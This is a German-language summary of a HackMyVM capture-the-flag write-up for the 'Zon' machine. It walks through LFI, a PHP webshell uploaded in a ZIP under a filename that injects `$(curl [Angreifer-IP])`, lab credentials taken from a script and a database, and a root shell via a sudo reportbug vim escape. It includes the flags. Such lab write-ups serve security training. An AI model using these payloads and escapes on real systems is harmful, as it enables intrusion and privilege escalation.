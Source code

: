 # Zon - HackMyVM (Medium)
 
![Zon.png](Zon.png)

## Übersicht

*   **VM:** Zon
*   **Plattform:** HackMyVM (https://hackmyvm.eu/machines/machine.php?vm=Zon)
*   **Schwierigkeit:** Medium
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 24. Januar 2024
*   **Original-Writeup:** https://alientec1908.github.io/Zon_HackMyVM_Medium/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel der "Zon"-Challenge war die Erlangung von User- und Root-Rechten. Der Weg begann mit der Enumeration eines Webservers (Port 80), der eine Upload-Funktion (`upload.php`) bereitstellte. Diese war anfällig für LFI (Parameter `file`) und Command Injection im Dateinamen beim Entpacken einer ZIP-Datei. Durch Hochladen einer ZIP-Datei, die eine PHP-Webshell mit einem speziellen Dateinamen wie `$(curl [Angreifer-IP]).php` enthielt, wurde RCE als `www-data` erlangt. Als `www-data` wurde ein Skript `hashDB.sh` gefunden, das MariaDB-Credentials (`admin:udgrJbFc6Av#U3`) enthielt. In der Datenbank `admin` (Tabelle `credentials`) wurde das Passwort `LDVK@dYiEa2I1lnjrEeoMif` für den Benutzer `Freddie` gefunden. Dies ermöglichte den Login als `freddie` (vermutlich via `su`). Die User-Flag wurde in dessen Home-Verzeichnis gefunden. Die Privilegieneskalation zu Root erfolgte durch Ausnutzung einer unsicheren `sudo`-Regel: `freddie` durfte `/usr/bin/reportbug` als `root` ohne Passwort ausführen. Durch Setzen der Shell im von `reportbug` gestarteten Editor (vermutlich `vim`) auf `/bin/bash` (`:set shell=/bin/bash`) und anschließendem Ausführen eines Shell-Befehls (`:!bash`) wurde eine Root-Shell erlangt.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `vi`
*   `nmap`
*   `nikto`
*   `gobuster`
*   `wfuzz`
*   `echo`
*   `zip`
*   `mv`
*   `exiftool` (versucht, aber nicht primärer Vektor)
*   `ln` (impliziert bei manchen LFI/RCE-Versuchen)
*   `curl`
*   `nc` (netcat)
*   `find`
*   `ls`
*   `cat`
*   `hydra` (versucht)
*   `mysql` (MariaDB Client)
*   `su`
*   `reportbug` (als Exploit-Vektor)
*   Standard Linux-Befehle (`id`, `pwd`, `cd`, `chmod`)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Zon" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Web Enumeration:**
    *   IP-Findung mit `arp-scan` (`192.168.2.104`). Eintrag von `zon.hmv` in `/etc/hosts`.
    *   `nmap`-Scan identifizierte offene Ports: 22 (SSH) und 80 (HTTP - Apache 2.4.57 "zon").
    *   `nikto` und `gobuster` auf Port 80 fanden diverse PHP-Seiten (`upload.php`, `login.php`, `create_account.php`) und ein `/uploads/`-Verzeichnis. `upload.php` gab einen 500er Fehler bei direktem GET-Aufruf.
    *   Ein LFI-Versuch auf `upload.php` mit `?file=file:///etc/passwd` war erfolgreich und zeigte den Inhalt von `/etc/passwd`.

2.  **Initial Access (RCE via File Upload und Filename Injection zu `www-data`):**
    *   Analyse der `upload.php`-Funktion zeigte, dass sie ZIP-Dateien erwartete und den Inhalt auf JPEG prüfte (Filter umgangen durch Umbenennung in `.php.jpeg` innerhalb des ZIPs).
    *   Entscheidend war jedoch die Ausnutzung einer Command Injection im Dateinamen beim serverseitigen Entpacken oder Verarbeiten.
    *   Eine ZIP-Datei (`testcrack2.zip`) wurde erstellt, die eine PHP-Webshell (`<?php echo system($_GET['cmd']); ?>`) mit dem Dateinamen `$(curl [Angreifer-IP]).php` enthielt.
    *   Nach dem Upload dieser ZIP und dem Aufruf der URL `http://zon.hmv/uploads/$(curl%20[Angreifer-IP]).php?cmd=id` wurde RCE als `www-data` bestätigt.
    *   Erlangung einer interaktiven Reverse Shell als `www-data` mittels eines Bash-Payloads über die Webshell.

3.  **Privilege Escalation (von `www-data` zu `freddie` via DB Credentials):**
    *   Als `www-data` wurde im Verzeichnis `/var/www/html` das Skript `hashDB.sh` gefunden.
    *   `cat hashDB.sh` enthüllte MariaDB-Credentials: `admin:udgrJbFc6Av#U3`.
    *   Login in MariaDB (`mysql -u admin -pudgrJbFc6Av#U3`).
    *   In der Datenbank `admin`, Tabelle `credentials`, wurde der Eintrag `Freddie | LDVK@dYiEa2I1lnjrEeoMif` gefunden.
    *   Wechsel zum Benutzer `freddie` mittels `su freddie` und dem Passwort `LDVK@dYiEa2I1lnjrEeoMif`.
    *   User-Flag `a0b4603c7fde7e4113d2ee5fbee5a038` in `/home/freddie/user.txt` gelesen.

4.  **Privilege Escalation (von `freddie` zu `root` via `sudo reportbug`):**
    *   `sudo -l` als `freddie` zeigte: `(ALL : ALL) NOPASSWD: /usr/bin/reportbug`.
    *   Ausführung von `sudo -u root /usr/bin/reportbug`.
    *   Innerhalb des von `reportbug` gestarteten Editors (vermutlich `vim`) wurden folgende Befehle eingegeben:
        1.  `:set shell=/bin/bash`
        2.  `:!bash` (oder `:!/bin/sh`)
    *   Erlangung einer Root-Shell.
    *   Root-Flag `18a72aa09ce61fb487fd6745c8eba769` in `/root/root.txt` gelesen.

## Wichtige Schwachstellen und Konzepte

*   **Local File Inclusion (LFI):** Die Datei `upload.php` war anfällig für LFI über den `file`-Parameter.
*   **Unsicherer Datei-Upload mit Command Injection im Dateinamen:** Ermöglichte das Hochladen einer Webshell und RCE.
*   **Klartext-Credentials in Skript und Datenbank:** Datenbank-Admin-Credentials in `hashDB.sh`, Systembenutzer-Passwort in der Datenbank.
*   **Unsichere `sudo`-Konfiguration (`reportbug`):** Die Erlaubnis, `/usr/bin/reportbug` als `root` ohne Passwort auszuführen, ermöglichte durch einen Shell-Escape aus dem Editor die Erlangung von Root-Rechten.
*   **Shell Escape aus Editor (`vim`):** Eine gängige Technik, um aus Editoren, die von privilegierten Prozessen gestartet werden, eine Shell zu erhalten.

## Flags

*   **User Flag (`/home/freddie/user.txt`):** `a0b4603c7fde7e4113d2ee5fbee5a038`
*   **Root Flag (`/root/root.txt`):** `18a72aa09ce61fb487fd6745c8eba769`

## Tags

`HackMyVM`, `Zon`, `Medium`, `LFI`, `File Upload Vulnerability`, `Command Injection`, `RCE`, `MariaDB`, `Klartext Passwörter`, `sudo Exploitation`, `reportbug`, `vim`, `Shell Escape`, `Privilege Escalation`, `Linux`, `Web`
